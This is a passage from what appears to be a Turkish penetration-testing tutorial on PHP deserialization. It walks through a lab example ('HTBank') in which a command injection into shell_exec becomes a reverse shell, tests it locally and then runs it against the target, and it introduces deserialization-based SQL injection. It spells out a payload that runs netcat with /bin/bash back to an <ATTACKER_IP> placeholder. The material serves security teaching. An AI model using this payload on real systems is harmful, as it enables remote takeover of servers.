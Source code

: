 **shell_exec** fonksiyonuna geçirilen komutun bir kısmını kontrol edebildiğimizi ve herhangi bir filtreleme yapılmadığını gördüğümüzde, bu basit bir **command injection** örneğidir. Adımızı "; ile başlatırsak, **echo** komutundan çıkabiliriz ve istediğimiz başka bir komutu çalıştırabiliriz.


### Reverse Shell Alma

Bir komut enjeksiyonunun mümkün olması gerektiğini bilerek, exploit.php'yi ismimizi ”; nc -nv <ATTACKER_IP> 9999 -e /bin/bash; # olarak ayarlayacak şekilde güncelleyebiliriz.

![Pasted image 20241211184049.png](/img/user/resimler/Pasted%20image%2020241211184049.png)

Yeni payload'umuzu almak için exploit.php'yi tekrar çalıştıracağız:

![Pasted image 20241211184127.png](/img/user/resimler/Pasted%20image%2020241211184127.png)

Her şeyin yolunda olup olmadığını kontrol etmek için local UserSettings.php dosyamızı shell_exec'e aktarılacak komutun tamamını yazdıracak şekilde güncelleyebiliriz.

![Pasted image 20241211184215.png](/img/user/resimler/Pasted%20image%2020241211184215.png)
![Pasted image 20241211184219.png](/img/user/resimler/Pasted%20image%2020241211184219.png)



### Testing Locally

İlk olarak, yerel bir Netcat dinleyicisi başlatmalı ve payload'u lokal olarak test etmeliyiz.

![Pasted image 20241211184247.png](/img/user/resimler/Pasted%20image%2020241211184247.png)

Komut enjeksiyonunun başarılı olduğunu görebiliyoruz ve target.php'yi çalıştırdığımız diğer zamanlarda olduğu gibi hiçbir değerin yazdırılmadığını fark edebilirsiniz (Netcat'i kapatana kadar).


### Running against the Target

Saldıran makinemizdeki listener'ı yeniden başlatabiliriz ve payload'u web uygulamasına aktardığımızda bir reverse shell elde etmeliyiz:

![Pasted image 20241211184402.png](/img/user/resimler/Pasted%20image%2020241211184402.png)


### Other Attacks

HTBank örneğinde, shell_exec'e girdiyi kontrol etmek ve böylece çalıştırılan komutu kontrol etmek için deserialization kullandık. Ancak, deserialization komut enjeksiyonuna özel değildir ve geliştiricilerin hangi magic fonksiyonları tanımladığına bağlı olarak her zaman uzaktan kod çalıştırma ile sonuçlanmayacaktır. Bir saldırgan olarak yaratıcı olmanız gerekir ve deserialization yoluyla SQLi, LFI ve DoS gibi saldırılar gerçekleştirmenin mümkün olduğunu görebilirsiniz.



### Deserialization yoluyla SQLi

İşte **deserialization** yoluyla olası bir SQL enjeksiyonuna dair bir örnek. Farz edelim ki, **UserModel** ve **UserProperty** sınıfları hedeflenen bir web sitesinin kaynak kodundan kopyalanmış ve **POST_Check_User_Property**, web sitesinin bazı örnek POST isteklerini nasıl işlediğini yeniden yaratacak şekilde, bir **UserProperty** nesnesinin **deserialized** edilmesine yol açan bir işlem.

